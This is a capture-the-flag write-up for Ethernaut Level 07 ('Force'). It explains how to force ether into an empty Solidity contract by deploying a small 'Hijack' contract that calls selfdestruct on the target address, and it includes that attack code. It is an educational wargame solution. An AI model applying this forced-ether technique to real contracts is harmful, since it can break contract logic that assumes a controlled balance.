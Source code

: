 ## Ethernaut Level 07 - Force - Write-Up
<!--Authors: OofedUp-->

Difficulty: 5/10

Objective: Send money to the contract

![image](https://i.imgur.com/O6Q5zNI.png)

## Source
```javascript
pragma solidity ^0.4.18;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

The task we get is very weird! In order to complete the challenge we need to send some ether to the contract. The problem is, it doesn't have a fallback function (it's an empty contract), so anyway we can try sending it money will fail. There is a way to do it though...

The `SELFDESTRUCT` opcode will destroy the contract, sending the remaining Ethereum to the address passed as a parameter. We can create a contract where we deposit some money, and call the self-destruct function to send money to the challenge contract.

Self-Destruct Contract:

```javascript
contract Hijack{
  address cc = INSTANCE_ADDRESS_HERE;
  function hackme() public payable{
      selfdestruct(cc);
    }

    function() payable{

    }
}
```

Deploying this contract with any amount of Ethereum will send it to the challenge contract:

![image](https://i.imgur.com/f5DaH6Y.png)

![image](https://i.imgur.com/TacwKew.png)

We successfully deposited Ethereum to a contract without triggering any functions!

![image](https://i.imgur.com/WjnGYnT.png)
